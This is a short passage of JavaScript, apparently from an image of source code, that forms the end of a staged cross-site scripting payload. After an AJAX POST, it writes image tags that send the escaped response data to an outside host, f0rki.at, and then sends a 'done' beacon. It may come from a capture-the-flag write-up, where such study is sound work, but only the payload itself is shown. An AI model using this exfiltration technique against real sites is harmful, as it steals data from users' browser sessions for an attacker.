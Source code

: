 ```html
    contentType: false,
    processData: false,
    type: 'POST',
    success: function(data) {
        document.write("<img src=\"http://f0rki.at/stage2/success/" + escape(data) + "\" />");
    }
});

document.write("<img src=\"http://f0rki.at/stage2/done.png\" />");
</script>
```
